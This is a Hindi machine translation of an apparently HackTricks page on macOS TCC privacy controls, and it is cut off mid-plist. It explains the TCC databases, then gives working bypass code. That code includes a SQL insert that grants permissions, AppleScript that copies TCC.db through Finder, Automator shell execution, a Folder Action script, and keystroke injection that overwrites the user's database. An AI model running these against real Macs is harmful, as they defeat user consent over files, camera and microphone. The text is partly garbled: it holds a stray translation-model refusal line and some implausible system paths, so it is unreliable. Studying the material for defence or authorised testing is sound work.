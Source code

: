 ```markdown
# macOS TCC

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **cybersecurity company** में काम करते हैं? क्या आप चाहते हैं कि आपकी **company का विज्ञापन HackTricks में दिखाई दे**? या क्या आप **PEASS के नवीनतम संस्करण तक पहुँचना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे **follow** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **hacktricks repo** में PRs सबमिट करके अपनी hacking tricks साझा करें और [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## **मूल जानकारी**

**TCC (Transparency, Consent, and Control)** macOS में एक तंत्र है जो **विशेष सुविधाओं तक एप्लिकेशन की पहुँच को सीमित और नियंत्रित करता है**, आमतौर पर गोपनीयता के दृष्टिकोण से। इसमें लोकेशन सेवाएं, संपर्क, फोटो, माइक्रोफोन, कैमरा, एक्सेसिबिलिटी, पूर्ण डिस्क एक्सेस और बहुत कुछ शामिल हो सकता है।

उपयोगकर्ता के दृष्टिकोण से, जब कोई एप्लिकेशन TCC द्वारा संरक्षित किसी सुविधा तक पहुँचना चाहता है तो वे TCC को क्रिया में देखते हैं। जब ऐसा होता है तो **उपयोगकर्ता को एक संवाद बॉक्स प्रदर्शित होता है** जो उनसे पूछता है कि क्या वे पहुँच की अनुमति देना चाहते हैं या नहीं।

यह भी संभव है कि **एप्लिकेशन को फाइलों तक पहुँच प्रदान की जाए** उपयोगकर्ताओं द्वारा **स्पष्ट इरादों** के माध्यम से, उदाहरण के लिए जब एक उपयोगकर्ता **एक फाइल को किसी प्रोग्राम में खींचकर छोड़ता है** (स्पष्ट रूप से प्रोग्राम को इसकी पहुँच होनी चाहिए)।

![TCC के एक प्रॉम्प्ट का उदाहरण](https://rainforest.engineering/images/posts/macos-tcc/tcc-prompt.png?1620047855)

**TCC** `/System/Library/PrivateFrameworks/TCC.framework/Support/tccd` में स्थित **daemon** द्वारा संभाला जाता है और `/System/Library/LaunchDaemons/com.apple.tccd.system.plist` में कॉन्फ़िगर किया गया है (mach service `com.apple.tccd.system` को रजिस्टर करता है)।

एक **user-mode tccd** होता है जो प्रत्येक लॉग इन किए गए उपयोगकर्ता के लिए `/System/Library/LaunchAgents/com.apple.tccd.plist` में परिभाषित होता है, जो mach services `com.apple.tccd` और `com.apple.usernotifications.delegate.com.apple.tccd` को रजिस्टर करता है।

यहाँ आप system और user के रूप में चल रहे tccd को देख सकते हैं:
```
```bash
ps -ef | grep tcc
0   374     1   0 Thu07PM ??         2:01.66 /System/Library/PrivateFrameworks/TCC.framework/Support/tccd system
501 63079     1   0  6:59PM ??         0:01.95 /System/Library/PrivateFrameworks/TCC.framework/Support/tccd
```
अनुमतियाँ **मूल एप्लिकेशन से विरासत में मिली होती हैं** और अनुमतियाँ **बंडल आईडी** और **डेवलपर आईडी** के आधार पर **ट्रैक की जाती हैं**।

### TCC डेटाबेस

अनुमतियाँ/अस्वीकृतियाँ फिर कुछ TCC डेटाबेस में संग्रहीत की जाती हैं:

* सिस्टम-व्यापी डेटाबेस **`/Library/Application Support/com.apple.TCC/TCC.db`** में होता है।
* यह डेटाबेस **SIP संरक्षित** है, इसलिए केवल SIP बायपास ही इसमें लिख सकता है।
* प्रति-उपयोगकर्ता प्राथमिकताओं के लिए उपयोगकर्ता TCC डेटाबेस **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**।
* यह डेटाबेस संरक्षित है इसलिए केवल उच्च TCC विशेषाधिकार वाली प्रक्रियाएँ जैसे कि Full Disk Access ही इसमें लिख सकती हैं (लेकिन यह SIP द्वारा संरक्षित नहीं है)।

{% hint style="warning" %}
पिछले डेटाबेस भी **पढ़ने के लिए TCC संरक्षित** हैं। इसलिए आप अपने सामान्य उपयोगकर्ता TCC डेटाबेस को तब तक **नहीं पढ़ पाएंगे** जब तक यह एक TCC विशेषाधिकार वाली प्रक्रिया से न हो।

हालांकि, याद रखें कि इन उच्च विशेषाधिकारों वाली प्रक्रिया (जैसे कि **FDA** या **`kTCCServiceEndpointSecurityClient`**) उपयोगकर्ता के TCC डेटाबेस में लिख सकती है।
{% endhint %}

* **स्थान सेवाओं** के लिए अनुमति देने वाले ग्राहकों को दर्शाने के लिए **तीसरा** TCC डेटाबेस **`/var/db/locationd/clients.plist`** में है।
* SIP संरक्षित फ़ाइल **`/Users/carlospolop/Downloads/REG.db`** (TCC के साथ पढ़ने के लिए भी संरक्षित), सभी **वैध TCC डेटाबेसों** के **स्थान** को समाहित करती है।
* SIP संरक्षित फ़ाइल **`/Users/carlospolop/Downloads/MDMOverrides.plist`** (TCC के साथ पढ़ने के लिए भी संरक्षित), अधिक TCC अनुमतियाँ दी गई हैं।
* SIP संरक्षित फ़ाइल **`/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist`** (लेकिन किसी भी व्यक्ति द्वारा पढ़ी जा सकती है) एक अनुमति सूची है जिसमें उन एप्लिकेशनों का उल्लेख है जिन्हें TCC अपवाद की आवश्यकता है।

{% hint style="success" %}
**iOS** में TCC डेटाबेस **`/private/var/mobile/Library/TCC/TCC.db`** में है।
{% endhint %}

{% hint style="info" %}
**नोटिफिकेशन सेंटर UI** सिस्टम TCC डेटाबेस में **परिवर्तन कर सकता है**:

{% code overflow="wrap" %}
```bash
codesign -dv --entitlements :- /System/Library/PrivateFrameworks/TCC.framework/Support/tccd
[..]
com.apple.private.tcc.manager
com.apple.rootless.storage.TCC
```
{% endcode %}

हालांकि, उपयोगकर्ता **नियमों को हटा सकते हैं या पूछताछ कर सकते हैं** **`tccutil`** कमांड लाइन उपयोगिता के साथ।
{% endhint %}

#### डेटाबेस की पूछताछ करें

{% tabs %}
{% tab title="उपयोगकर्ता DB" %}
{% code overflow="wrap" %}
```bash
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db
sqlite> .schema
# Tables: admin, policies, active_policy, access, access_overrides, expired, active_policy_id
# The table access contains the permissions per services
sqlite> select service, client, auth_value, auth_reason from access;
kTCCServiceLiverpool|com.apple.syncdefaultsd|2|4
kTCCServiceSystemPolicyDownloadsFolder|com.tinyspeck.slackmacgap|2|2
kTCCServiceMicrophone|us.zoom.xos|2|2
[...]

# Check user approved permissions for telegram
sqlite> select * from access where client LIKE "%telegram%" and auth_value=2;
# Check user denied permissions for telegram
sqlite> select * from access where client LIKE "%telegram%" and auth_value=0;
```
Since the content to be translated has not been provided, I'm unable to proceed with the translation. Please provide the English text that needs to be translated into Hindi, and I will translate it while maintaining the markdown and HTML syntax as requested.
```bash
sqlite3 /Library/Application\ Support/com.apple.TCC/TCC.db
sqlite> .schema
# Tables: admin, policies, active_policy, access, access_overrides, expired, active_policy_id
# The table access contains the permissions per services
sqlite> select service, client, auth_value, auth_reason from access;
kTCCServiceLiverpool|com.apple.syncdefaultsd|2|4
kTCCServiceSystemPolicyDownloadsFolder|com.tinyspeck.slackmacgap|2|2
kTCCServiceMicrophone|us.zoom.xos|2|2
[...]

# Get all FDA
sqlite> select service, client, auth_value, auth_reason from access where service = "kTCCServiceSystemPolicyAllFiles" and auth_value=2;

# Check user approved permissions for telegram
sqlite> select * from access where client LIKE "%telegram%" and auth_value=2;
# Check user denied permissions for telegram
sqlite> select * from access where client LIKE "%telegram%" and auth_value=0;
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="success" %}
दोनों डेटाबेस की जांच करके आप यह देख सकते हैं कि किसी ऐप ने कौन सी अनुमतियां स्वीकार की हैं, किन्हें मना किया है, या नहीं है (वह इसके लिए पूछेगा)।
{% endhint %}

* **`service`** TCC **अनुमति** का स्ट्रिंग प्रतिनिधित्व है
* **`client`** अनुमतियों वाला **bundle ID** या **बाइनरी का पथ** है
* **`client_type`** यह दर्शाता है कि यह एक Bundle Identifier(0) है या एक पूर्ण पथ(1)

<details>

<summary>यदि यह एक पूर्ण पथ है तो कैसे निष्पादित करें</summary>

बस **`launctl load you_bin.plist`** करें, एक plist के साथ जैसे:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<!-- Label for the job -->
<key>Label</key>
<string>com.example.yourbinary</string>

<!-- The path to the executable -->
<key>Program</key>
<string>/path/to/binary</string>

<!-- Arguments to pass to the executable (if any) -->
<key>ProgramArguments</key>
<array>
<string>arg1</string>
<string>arg2</string>
</array>

<!-- Run at load -->
<key>RunAtLoad</key>
<true/>

<!-- Keep the job alive, restart if necessary -->
<key>KeepAlive</key>
<true/>

<!-- Standard output and error paths (optional) -->
<key>StandardOutPath</key>
<string>/tmp/YourBinary.stdout</string>
<key>StandardErrorPath</key>
<string>/tmp/YourBinary.stderr</string>
</dict>
</plist>
```
<details>

* **`auth_value`** विभिन्न मान ले सकता है: denied(0), unknown(1), allowed(2), या limited(3).
* **`auth_reason`** निम्नलिखित मान ले सकता है: Error(1), User Consent(2), User Set(3), System Set(4), Service Policy(5), MDM Policy(6), Override Policy(7), Missing usage string(8), Prompt Timeout(9), Preflight Unknown(10), Entitled(11), App Type Policy(12)
* **csreq** क्षेत्र यह इंगित करने के लिए है कि बाइनरी को कैसे सत्यापित करें और TCC अनुमतियाँ प्रदान करें:
```bash
# Query to get cserq in printable hex
select service, client, hex(csreq) from access where auth_value=2;

# To decode it (https://stackoverflow.com/questions/52706542/how-to-get-csreq-of-macos-application-on-command-line):
BLOB="FADE0C000000003000000001000000060000000200000012636F6D2E6170706C652E5465726D696E616C000000000003"
echo "$BLOB" | xxd -r -p > terminal-csreq.bin
csreq -r- -t < terminal-csreq.bin

# To create a new one (https://stackoverflow.com/questions/52706542/how-to-get-csreq-of-macos-application-on-command-line):
REQ_STR=$(codesign -d -r- /Applications/Utilities/Terminal.app/ 2>&1 | awk -F ' => ' '/designated/{print $2}')
echo "$REQ_STR" | csreq -r- -b /tmp/csreq.bin
REQ_HEX=$(xxd -p /tmp/csreq.bin  | tr -d '\n')
echo "X'$REQ_HEX'"
```
* अधिक जानकारी के लिए तालिका के **अन्य फील्ड्स** के बारे में [**इस ब्लॉग पोस्ट को देखें**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive).

आप `System Preferences --> Security & Privacy --> Privacy --> Files and Folders` में ऐप्स को **पहले से दिए गए अनुमतियां** भी देख सकते हैं।

{% hint style="success" %}
उपयोगकर्ता **`tccutil`** का उपयोग करके नियमों को **हटा सकते हैं या जांच सकते हैं**।
{% endhint %}

#### TCC अनुमतियों को रीसेट करें
```bash
# You can reset all the permissions given to an application with
tccutil reset All app.some.id

# Reset the permissions granted to all apps
tccutil reset All
```
### TCC हस्ताक्षर जांच

TCC **डेटाबेस** एप्लिकेशन के **Bundle ID** को संग्रहीत करता है, परंतु यह **जानकारी** भी संग्रहीत करता है कि **हस्ताक्षर** के बारे में **सुनिश्चित** करने के लिए कि अनुमति का उपयोग करने के लिए पूछने वाला ऐप सही है।

{% code overflow="wrap" %}
```bash
# From sqlite
sqlite> select service, client, hex(csreq) from access where auth_value=2;
#Get csreq

# From bash
echo FADE0C00000000CC000000010000000600000007000000060000000F0000000E000000000000000A2A864886F763640601090000000000000000000600000006000000060000000F0000000E000000010000000A2A864886F763640602060000000000000000000E000000000000000A2A864886F7636406010D0000000000000000000B000000000000000A7375626A6563742E4F550000000000010000000A364E33385657533542580000000000020000001572752E6B656570636F6465722E54656C656772616D000000 | xxd -r -p - > /tmp/telegram_csreq.bin
## Get signature checks
csreq -t -r /tmp/telegram_csreq.bin
(anchor apple generic and certificate leaf[field.1.2.840.113635.100.6.1.9] /* exists */ or anchor apple generic and certificate 1[field.1.2.840.113635.100.6.2.6] /* exists */ and certificate leaf[field.1.2.840.113635.100.6.1.13] /* exists */ and certificate leaf[subject.OU] = "6N38VWS5BX") and identifier "ru.keepcoder.Telegram"
```
{% endcode %}

{% hint style="warning" %}
इसलिए, एक ही नाम और बंडल ID का उपयोग करने वाले अन्य एप्लिकेशन अन्य एप्स को दिए गए अनुमतियों तक पहुँचने में सक्षम नहीं होंगे।
{% endhint %}

### Entitlements & TCC अनुमतियाँ

एप्लिकेशन **केवल अनुरोध करने की जरूरत नहीं होती** और कुछ संसाधनों तक पहुँचने के लिए **अनुमति प्राप्त की गई हो**, उन्हें **संबंधित entitlements भी होनी चाहिए**।\
उदाहरण के लिए **Telegram** के पास कैमरा तक पहुँच के लिए अनुरोध करने के लिए entitlement `com.apple.security.device.camera` है। एक **एप्लिकेशन** जिसके पास यह **entitlement नहीं है** वह कैमरा तक पहुँचने में सक्षम **नहीं होगा** (और उपयोगकर्ता से अनुमतियों के लिए भी नहीं पूछा जाएगा)।

हालांकि, एप्लिकेशन को `~/Desktop`, `~/Downloads` और `~/Documents` जैसे **कुछ उपयोगकर्ता फोल्डरों** तक **पहुँचने** के लिए किसी विशेष **entitlements की जरूरत नहीं होती है।** सिस्टम पारदर्शी रूप से पहुँच को संभालेगा और जरूरत के अनुसार **उपयोगकर्ता को संकेत देगा**।

Apple के एप्लिकेशन **संकेत उत्पन्न नहीं करेंगे**। उनमें उनकी **entitlements सूची** में **पूर्व-अनुमत अधिकार** होते हैं, जिसका अर्थ है कि वे **कभी भी पॉपअप उत्पन्न नहीं करेंगे**, **न ही** वे किसी भी **TCC डेटाबेस** में दिखाई देंगे। उदाहरण के लिए:
```bash
codesign -dv --entitlements :- /System/Applications/Calendar.app
[...]
<key>com.apple.private.tcc.allow</key>
<array>
<string>kTCCServiceReminders</string>
<string>kTCCServiceCalendar</string>
<string>kTCCServiceAddressBook</string>
</array>
```
इससे कैलेंडर उपयोगकर्ता से रिमाइंडर्स, कैलेंडर और पता पुस्तिका तक पहुँचने के लिए नहीं पूछेगा।

{% hint style="success" %}
कुछ आधिकारिक दस्तावेज़ीकरण के अलावा, अधिकारों के बारे में अनौपचारिक **रोचक जानकारी** भी [**https://newosxbook.com/ent.jl**](https://newosxbook.com/ent.jl) पर मिल सकती है।
{% endhint %}

कुछ TCC अनुमतियाँ हैं: kTCCServiceAppleEvents, kTCCServiceCalendar, kTCCServicePhotos... उन सभी की कोई सार्वजनिक सूची नहीं है लेकिन आप इस [**ज्ञात सूची**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive#service) को देख सकते हैं।

### संवेदनशील असुरक्षित स्थान

* $HOME (स्वयं)
* $HOME/.ssh, $HOME/.aws, आदि
* /tmp

### उपयोगकर्ता इरादा / com.apple.macl

पहले उल्लेख किया गया है, यह संभव है कि **एक ऐप को फाइल तक पहुँच देने के लिए उसे ड्रैग एंड ड्रॉप करके उसमें डाला जा सकता है**। यह पहुँच TCC डेटाबेस में कहीं निर्दिष्ट नहीं होगी लेकिन फाइल के **विस्तारित गुण** के रूप में होगी। यह गुण **अनुमति प्राप्त ऐप का UUID संग्रहित करेगा**।
```bash
xattr Desktop/private.txt
com.apple.macl

# Check extra access to the file
## Script from https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command
macl_read Desktop/private.txt
Filename,Header,App UUID
"Desktop/private.txt",0300,769FD8F1-90E0-3206-808C-A8947BEBD6C3

# Get the UUID of the app
otool -l /System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal| grep uuid
uuid 769FD8F1-90E0-3206-808C-A8947BEBD6C3
```
{% hint style="info" %}
यह जिज्ञासा की बात है कि **`com.apple.macl`** विशेषता का प्रबंधन **Sandbox** द्वारा किया जाता है, tccd द्वारा नहीं।

यह भी ध्यान दें कि यदि आप एक फाइल को जो आपके कंप्यूटर में एक ऐप के UUID की अनुमति देती है, एक अलग कंप्यूटर पर ले जाते हैं, क्योंकि वही ऐप अलग UIDs के साथ होगा, यह उस ऐप को उस तक पहुँच की अनुमति नहीं देगा।
{% endhint %}

विस्तारित विशेषता `com.apple.macl` को अन्य विस्तारित विशेषताओं की तरह **साफ नहीं किया जा सकता** क्योंकि यह **SIP द्वारा सुरक्षित है**। हालांकि, [**इस पोस्ट में बताया गया है**](https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/) कि फाइल को **zipping** करके, **deleting** करके और **unzipping** करके इसे अक्षम करना संभव है।

## TCC Privesc & Bypasses

### TCC में प्रविष्टि

यदि किसी बिंदु पर आप TCC डेटाबेस पर लिखने की पहुँच प्राप्त कर लेते हैं, तो आप निम्नलिखित का उपयोग करके एक प्रविष्टि जोड़ सकते हैं (टिप्पणियों को हटा दें):

<details>

<summary>TCC में प्रविष्टि का उदाहरण</summary>
```sql
INSERT INTO access (
service,
client,
client_type,
auth_value,
auth_reason,
auth_version,
csreq,
policy_id,
indirect_object_identifier_type,
indirect_object_identifier,
indirect_object_code_identity,
flags,
last_modified,
pid,
pid_version,
boot_uuid,
last_reminded
) VALUES (
'kTCCServiceSystemPolicyDesktopFolder', -- service
'com.googlecode.iterm2', -- client
0, -- client_type (0 - bundle id)
2, -- auth_value  (2 - allowed)
3, -- auth_reason (3 - "User Set")
1, -- auth_version (always 1)
X'FADE0C00000000C40000000100000006000000060000000F0000000200000015636F6D2E676F6F676C65636F64652E697465726D32000000000000070000000E000000000000000A2A864886F7636406010900000000000000000006000000060000000E000000010000000A2A864886F763640602060000000000000000000E000000000000000A2A864886F7636406010D0000000000000000000B000000000000000A7375626A6563742E4F550000000000010000000A483756375859565137440000', -- csreq is a BLOB, set to NULL for now
NULL, -- policy_id
NULL, -- indirect_object_identifier_type
'UNUSED', -- indirect_object_identifier - default value
NULL, -- indirect_object_code_identity
0, -- flags
strftime('%s', 'now'), -- last_modified with default current timestamp
NULL, -- assuming pid is an integer and optional
NULL, -- assuming pid_version is an integer and optional
'UNUSED', -- default value for boot_uuid
strftime('%s', 'now') -- last_reminded with default current timestamp
);
```
</details>

### ऑटोमेशन (फाइंडर) से FDA\*

TCC की ऑटोमेशन अनुमति का नाम है: **`kTCCServiceAppleEvents`**\
यह विशेष TCC अनुमति यह भी इंगित करती है कि **कौन सा एप्लिकेशन TCC डेटाबेस के अंदर प्रबंधित किया जा सकता है** (इसलिए अनुमतियाँ सिर्फ सब कुछ प्रबंधित करने की अनुमति नहीं देती हैं)।

**फाइंडर** एक ऐसा एप्लिकेशन है जिसके पास **हमेशा FDA होता है** (भले ही यह UI में न दिखाई दे), इसलिए यदि आपके पास इस पर **ऑटोमेशन** विशेषाधिकार हैं, तो आप इसके विशेषाधिकारों का दुरुपयोग करके **कुछ क्रियाएं करवा सकते हैं**।\
इस मामले में आपके एप्लिकेशन को **`com.apple.Finder`** पर **`kTCCServiceAppleEvents`** की अनुमति की आवश्यकता होगी।

{% tabs %}
{% tab title="Steal users TCC.db" %}
```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
set homeFolder to path to home folder as string
set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
set targetFolder to POSIX file "/tmp" as alias

try
duplicate file sourceFile to targetFolder with replacing
on error errMsg
display dialog "Error: " & errMsg
end try
end tell
EOD
```
{% endtab %}

{% tab title="सिस्टम्स TCC.db चुराएं" %}
```applescript
osascript<<EOD
tell application "Finder"
set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
set targetFolder to POSIX file "/tmp" as alias

try
duplicate file sourceFile to targetFolder with replacing
on error errMsg
display dialog "Error: " & errMsg
end try
end tell
EOD
```
{% endtab %}
{% endtabs %}

आप इसका दुरुपयोग करके **अपना स्वयं का उपयोगकर्ता TCC डेटाबेस लिख सकते हैं**।

{% hint style="warning" %}
इस अनुमति के साथ आप **finder से TCC प्रतिबंधित फ़ोल्डरों तक पहुँचने के लिए कह सकते हैं** और आपको फ़ाइलें दे सकते हैं, लेकिन जहाँ तक मुझे पता है आप **Finder को मनमाना कोड निष्पादित करने के लिए नहीं बना पाएंगे** ताकि उसके FDA एक्सेस का पूरा दुरुपयोग कर सकें।

इसलिए, आप FDA क्षमताओं का पूरा दुरुपयोग नहीं कर पाएंगे।
{% endhint %}

यह TCC प्रॉम्प्ट है जिससे Finder पर Automation विशेषाधिकार प्राप्त करने के लिए:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt="" width="244"><figcaption></figcaption></figure>

{% hint style="danger" %}
ध्यान दें कि **Automator** ऐप के पास TCC अनुमति **`kTCCServiceAppleEvents`** है, इसलिए यह **किसी भी ऐप को नियंत्रित कर सकता है**, जैसे कि Finder। इसलिए Automator को नियंत्रित करने की अनुमति होने से आप नीचे दिए गए कोड की तरह **Finder** को भी नियंत्रित कर सकते हैं:
{% endhint %}

<details>

<summary>Automator के अंदर एक शेल प्राप्त करें</summary>
```applescript
osascript<<EOD
set theScript to "touch /tmp/something"

tell application "Automator"
set actionID to Automator action id "com.apple.RunShellScript"
tell (make new workflow)
add actionID to it
tell last Automator action
set value of setting "inputMethod" to 1
set value of setting "COMMAND_STRING" to theScript
end tell
execute it
end tell
activate
end tell
EOD
# Once inside the shell you can use the previous code to make Finder copy the TCC databases for example and not TCC prompt will appear
```
<details>

वही **Script Editor app** के साथ होता है, यह Finder को नियंत्रित कर सकता है, लेकिन AppleScript का उपयोग करके आप इसे स्क्रिप्ट निष्पादित करने के लिए मजबूर नहीं कर सकते।

### Automation (SE) कुछ TCC के लिए

System Events Folder Actions बना सकते हैं, और Folder actions कुछ TCC फोल्डर्स तक पहुँच सकते हैं, इसलिए निम्नलिखित जैसी स्क्रिप्ट का उपयोग इस व्यवहार का दुरुपयोग करने के लिए किया जा सकता है:

</details>
```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("/Applications/iTerm.app/Contents/MacOS/iTerm2");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
-- Ensure Folder Actions are enabled
set folder actions enabled to true

-- Define the path to the folder and the script
set homeFolder to path to home folder as text
set folderPath to homeFolder & "Desktop"
set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

-- Create or get the Folder Action for the Desktop
if not (exists folder action folderPath) then
make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
end if
set myFolderAction to folder action folderPath

-- Attach the script to the Folder Action
if not (exists script scriptPath of myFolderAction) then
make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
end if

-- Enable the Folder Action and the script
enable myFolderAction
end tell
EOD

# Open the folder, this won't be enough, but just getting out of it, or getting it is enough to trigger the folder action script
open "$HOME/Desktop"
```
### स्वचालन (SE) + पहुँच क्षमता (**`kTCCServicePostEvent`)** FDA\* के लिए

**`System Events`** पर स्वचालन + पहुँच क्षमता (**`kTCCServicePostEvent`**) **प्रक्रियाओं को कीस्ट्रोक्स भेजने** की अनुमति देता है। इस तरह आप Finder का उपयोग करके उपयोगकर्ता के TCC.db को बदल सकते हैं या किसी मनमाने ऐप को FDA दे सकते हैं (हालांकि इसके लिए पासवर्ड की प्रॉम्प्ट हो सकती है)।

Finder द्वारा उपयोगकर्ता के TCC.db को ओवरराइट करने का उदाहरण:
```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
-- Open Finder
tell application "Finder" to activate

-- Open the /tmp directory
keystroke "g" using {command down, shift down}
delay 1
keystroke "/tmp"
delay 1
keystroke return
delay 1

-- Select and copy the file
keystroke "TCC.db"
delay 1
keystroke "c" using {command down}
delay 1

-- Resolve $HOME environment variable
set homePath to system attribute "HOME"

-- Navigate to the Desktop directory under $HOME
keystroke "g" using {command down, shift down}
delay 1
keystroke homePath & "/Library/Application Support/com.apple.TCC"
delay 1
keystroke return
delay 1

-- Check if the file exists in the destination and delete if it does (need to send keystorke code: https://macbiblioblog.blogspot.com/2014/12/key-codes-for-function-and-special-keys.html)
keystroke "TCC.db"
delay 1
keystroke return
delay 1
key code 51 using {command down}
delay 1

-- Paste the file
keystroke "v" using {command down}
end tell
EOF
```
### **Endpoint Security Client से FDA तक**

यदि आपके पास **`kTCCServiceEndpointSecurityClient`** है, तो आपके पास FDA है। अंत।

### System Policy SysAdmin File से FDA तक

**`kTCCServiceSystemPolicySysAdminFiles`** उपयोगकर्ता के **`NFSHomeDirectory`** विशेषता को **बदलने** की अनुमति देता है, जो उसके होम फोल्डर को बदलता है और इस प्रकार TCC को **बायपास** करने की अनुमति देता है।

### User TCC DB से FDA तक

उपयोगकर्ता TCC डेटाबेस पर **लिखने की अनुमति** प्राप्त करके आप खुद को **`FDA`** अनुमतियां नहीं दे सकते, केवल वही जो सिस्टम डेटाबेस में रहता है वह यह अनुमति दे सकता है।

लेकिन आप खुद को **`Finder के लिए Automation अधिकार`** दे सकते हैं, और पिछली तकनीक का दुरुपयोग करके FDA तक बढ़ा सकते हैं\*।

### **FDA से TCC अनुमतियों तक**

**Full Disk Access** का TCC नाम **`kTCCServiceSystemPolicyAllFiles`** है

मुझे नहीं लगता कि यह एक वास्तविक privesc है, लेकिन यदि आपको यह उपयोगी लगे: यदि आप FDA के साथ एक प्रोग्राम को नियंत्रित करते हैं तो आप **उपयोगकर्ता के TCC डेटाबेस को संशोधित कर सकते हैं और खुद को कोई भी एक्सेस दे सकते हैं**। यह एक पर्सिस्टेंस तकनीक के रूप में उपयोगी हो सकता है यदि आप अपनी FDA अनुमतियां खो सकते हैं।

### **SIP Bypass से TCC Bypass तक**

सिस्टम **TCC डेटाबेस** **SIP** द्वारा संरक्षित है, इसलिए केवल उन प्रक्रियाओं के साथ जिनके पास **निर्दिष्ट entitlements हैं, वे इसे संशोधित करने में सक्षम होंगे**। इसलिए, यदि एक हमलावर को **SIP बायपास** मिलता है एक **फाइल** पर (SIP द्वारा प्रतिबंधित एक फाइल को संशोधित करने में सक्षम हो), वह सक्षम होगा:

* TCC डेटाबेस की सुरक्षा को **हटाने** के लिए, और खुद को सभी TCC अनुमतियां देने के लिए। वह इन फाइलों में से किसी का भी दुरुपयोग कर सकता है, उदाहरण के लिए:
* TCC सिस्टम्स डेटाबेस
* REG.db
* MDMOverrides.plist

हालांकि, TCC को बायपास करने के लिए इस **SIP बायपास का दुरुपयोग करने का एक और विकल्प है**, फाइल `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist` एक अनुमति सूची है जिसमें ऐसे एप्लिकेशन हैं जिन्हें TCC अपवाद की आवश्यकता है। इसलिए, यदि एक हमलावर इस फाइल से **SIP सुरक्षा को हटा सकता है** और अपना **खुद का एप्लिकेशन जोड़ सकता है** तो एप्लिकेशन TCC को बायपास करने में सक्षम होगा।\
उदाहरण के लिए टर्मिनल जोड़ने के लिए:
```bash
# Get needed info
codesign -d -r- /System/Applications/Utilities/Terminal.app
```
AllowApplicationsList.plist:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Services</key>
<dict>
<key>SystemPolicyAllFiles</key>
<array>
<dict>
<key>CodeRequirement</key>
<string>identifier &quot;com.apple.Terminal&quot; and anchor apple</string>
<key>IdentifierType</key>
<string>bundleID</string>
<key>Identifier</key>
<string>com.apple.Terminal</string>
